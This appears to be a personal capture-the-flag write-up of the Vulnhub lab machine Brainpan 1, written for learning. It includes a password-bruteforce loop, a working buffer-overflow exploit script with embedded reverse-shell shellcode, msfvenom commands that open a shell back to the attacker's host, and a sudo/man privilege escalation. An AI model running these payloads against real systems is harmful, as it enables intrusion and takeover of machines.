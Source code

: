 ```yaml
---
layout: post
title:  "Brainpan 1 WriteUp"
categories: [write-ups]
permalink: /write-ups/brainpan_1_writeup/
---
```

Brainpan 1 is an intermediate OSCP-like machine hosted on Vulnhub which features a Windows x86 buffer overflow as the foothold.
<h1>Network Scan</h1>
As always, I've used Nmap to sweep the network and get the IP of the target machine.
![NetScan](netScan.png)
The IP of the target machine is 192.168.56.131, as .10 is my machine.
<br><br>
<h1>Port Scan</h1>
![PortScan](portScan.png)
This time there are two services listening in strange ports, so I used the default NSE scripts to gather more information about them.
![Port 9999 NSE](port9999NSE.png)
![Port 10000 NSE](port10000NSE.png)
Port 9999 has an unknown application which asks for a password, while port 10000 is a Python SimpleHTTPServer.
<h1>Port 10000 Enumeration</h1>
In the root page we get an image with some good coding practices.
![Root web page](rootPage.png)
I couldn't find anything interesting while enumerating manually, but Gobuster found a directory.
![Gobuster](gobuster.png)
The bin directory has directory listing enabled and from there we can download a Windows executable.
![Bin dir](binDirectory.png)
<h1>Brainpan.exe and Obtaining a Shell</h1>
Brainpan.exe is the program that is listening on port 9999 on the target machine.
![Exec brain 1](execBrain.png)
![Exec brain 2](execBrain2.png)
I attempted to bruteforce the password while I was examining the code using OllyDbg.
{% highlight bash %}for pass in $(cat test.txt)
do
        result=$(echo $pass | nc localhost 9999 | grep "ACCESS DENIED")
        if [ -z "$result" ]
        then
                echo $pass works!
                exit
        fi
done {% endhighlight %}
I found the password when I was reading the get_reply function (the string that was being passed as a parameter to strcmp), but using it didn't do anything. I also noticed that the program uses the strcpy function, which is unsafe.
![Olly Code](ollyDBGCode.png)
I used msf-pattern_create to generate a pattern with 1000 characters to test if the application would crash and then I used msf-pattern_offset to get the exact position.
![BOF Test 1](BOFTest1.png)
![BOF Test 2](BOFTest2.png) 
![BOF Test 3](BOFTest3.png)
To control the EIP register we need to send 524 junk bytes and the direction where we want to jump. I also found a function called winkwink with a "JMP esp" instruction at 0x311712F3, which means we can try to execute some shellcode (I should have checked the memory protections to see if NX was enabled, but I didn't know how to do this with OllyDbg and I didn't have a Windows VM prepared).<br>
I generated two shellcodes, one for Windows and the other one for Linux using msfvenom.
{% highlight bash %}
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.10 LPORT=1234 -f py -v shellcode -a x86 –platform Windows -b "\x00\x0a" #Windows shellcode
msfvenom -p linux/x86/shell_reverse_tcp LPORT=1234 LHOST=192.168.56.10 -f py -v shellcode -a x86 –platform Linux -b "\x00\x0a" #Linux shellcode
{% endhighlight %}
At first the shellcode didn't execute properly, so I searched on the Internet and I found the NOP Sled technique, which consists in placing some NOP instructions before the shellcode to try to ensure that the shellcode will be executed completely. Using 16 NOPs (0x90) makes the shellcode work properly.
{% highlight python %}import struct
#Linux shellcode generated using msf-venom
shellcode =  b""
shellcode += b"\xda\xd1\xd9\x74\x24\xf4\x58\xbb\x3d\xfb\x67"
shellcode += b"\x3e\x2b\xc9\xb1\x12\x31\x58\x17\x83\xe8\xfc"
shellcode += b"\x03\x65\xe8\x85\xcb\xa4\xd5\xbd\xd7\x95\xaa"
shellcode += b"\x12\x72\x1b\xa4\x74\x32\x7d\x7b\xf6\xa0\xd8"
shellcode += b"\x33\xc8\x0b\x5a\x7a\x4e\x6d\x32\xbd\x18\xb5"
shellcode += b"\xc8\x55\x5b\xc6\xc8\x77\xd2\x27\x60\x11\xb5"
shellcode += b"\xf6\xd3\x6d\x36\x70\x32\x5c\xb9\xd0\xdc\x31"
shellcode += b"\x95\xa7\x74\xa6\xc6\x68\xe6\x5f\x90\x94\xb4"                                                                                                         
shellcode += b"\xcc\x2b\xbb\x88\xf8\xe6\xbc"
#Junk bytes to fill the buffer
junk = 'A'*524
#Address of the JMP esp instruction
retAddr = struct.pack("<I",0x311712F3)
#Payload with 16 NOPs
print junk+retAddr+"\x90"*16+shellcode{% endhighlight %}
I used the Linux shellcode because I knew that the target machine was using Linux (and I already tested it in my machine).
![Remote shell 1](remoteShell1.png)
![Remote shell 2](remoteShell2.png)
<br>
<h1>PrivEsc to Root</h1>
Running sudo -l we can see that puck can run a script as root without suppling the password. This script has three functions (network, proclist and manual). The manual function runs the man command with the argument that we supply.
![Sudo -l](sudoPuck.png)
![Functions](functions.png)
The man command uses a pager to show the manual and this pager allows us to run commands (and even to get a shell). I won't explain the method but [I'll leave a link to it](https://gtfobins.github.io/gtfobins/man/).
![privesc](privesc.png)
<h1>Conclusions</h1>
This is a really fun and a bit difficult machine that helped me practising buffer overflow. I've learnt about the NOP sled technique and the importance of having a Windows VM to test programs in there (I'll work on this in the future).
